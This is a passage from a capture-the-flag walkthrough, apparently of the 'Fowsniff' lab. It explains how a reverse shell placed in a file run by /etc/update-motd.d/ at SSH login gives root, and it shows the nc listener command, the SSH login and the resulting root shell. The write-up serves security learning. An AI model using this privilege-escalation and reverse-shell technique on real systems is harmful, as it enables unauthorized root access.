 ### No answer needed

###

### If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

Let's start a `nc` listener on port 9999.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
```

Let's login again using SSH.

```
ssh baksteen@10.10.251.22
```

If we check back on our listener, we will find that we have a reverse shell as `root`.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.251.22] 58062
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

### No answer needed
